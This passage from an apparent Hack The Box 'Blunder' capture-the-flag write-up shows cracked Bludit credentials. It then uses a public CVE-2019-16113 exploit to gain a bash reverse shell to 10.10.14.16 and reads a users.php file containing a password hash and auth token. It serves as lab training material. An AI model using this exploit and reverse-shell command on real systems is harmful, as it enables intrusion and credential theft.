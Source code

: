 ``` 
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```
## Initial Foothold
With a set of working credentials found, the remote code vulnerability discussed earlier can now be used. A well written
python exploit to leverage the vulnerability into RCE was found on GitHub as 
[CVE-2019-16113.py](https://github.com/cybervaca/CVE-2019-16113/blob/master/CVE-2019-16113.py). Using the module a reverse
shell was gained as follows.
```
[pwnd_root@manjaro Blunder]$ python BluditReverseShell.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/10.10.14.16/9090 0>&1'"      
 
 
╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔ 
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║ 
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝ 
 
 CVE-2019-16113 CyberVaca 
 
 
[+] csrf_token: ae06067214d4274ec22c8ebcbcd04c05d5564466 
[+] cookie: 926lpeatus8i719l3dcv80vih7 
[+] csrf_token: 4af3f04b71272422d4c0ebf7fcaff3872fad1040 
[+] Uploading ztozltge.jpg 
[+] Executing command: bash -c 'bash -i >& /dev/tcp/10.10.14.16/9090 0>&1' 
[+] Delete: .htaccess 
[+] Delete: ztozltge.jpg
```
![Initial Shell](/assets/img/posts/blunder/initialshell.png)

Per the screenshot, the reverse shell was from *www-data* with the lowest privileges, with no access to read the 
*user.txt* file. Enumeration on the target with this reverse shell revealed a file, ***users.php***, 
that contains the password hash for user ***hugo***.
```php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
```